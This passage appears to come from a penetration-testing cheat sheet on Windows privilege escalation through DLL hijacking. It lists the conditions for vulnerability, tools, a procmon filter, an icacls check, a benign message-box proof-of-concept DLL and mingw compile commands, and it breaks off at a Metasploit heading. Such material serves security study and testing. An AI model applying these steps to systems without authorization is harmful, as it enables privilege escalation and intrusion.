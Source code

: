 **To be able to escalate privileges via DLL hijacking, the following conditions need to be in place**:

* Write Permissions on a system folder.
* Software installation in a non-default directory.
* A service that is running as a system and is missing a DLL.
* Permissions for restarting the service.
* Tools :
  * procmon.exe (SysInternals)
  * [DLLSpy](https://github.com/cyberark/DLLSpy)
  * [Robber](https://github.com/MojtabaTajik/Robber)

#### Using procmon.exe

Find vulnerable DLLs To enumerate missing DLLs inside a specific executable, set filter like:

```
“Process Name” “contains” “{executable-name}”
```

Apply it and capture events for that specific Executable.

**Simple PoC**

* Find process that runs with other privileges that is missing a DLL.
* Have write permission on any folder where DLL is going to be searched.
* Check permissions in a folder :

```powershell
icacls “{path}”
```

* Creating a payload :

```powershell
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 MessageBox(NULL, TEXT("pwnd!"), TEXT("dll hijack poc!"), 0);
 return 0;
}
```

* Compile on Linux :

```powershell
#install mingw
 sudo apt install mingw-w64
#x32
 i686-w64-mingw32-gcc -shared -o Shared.DLL Shared.cpp
#x64
 x86_64-w64-mingw32-gcc -shared -o Shared.DLL Shared.cpp
```

Place it into folder

**Escalating Privileges**

* Generating Malicious DLL using Metasploit
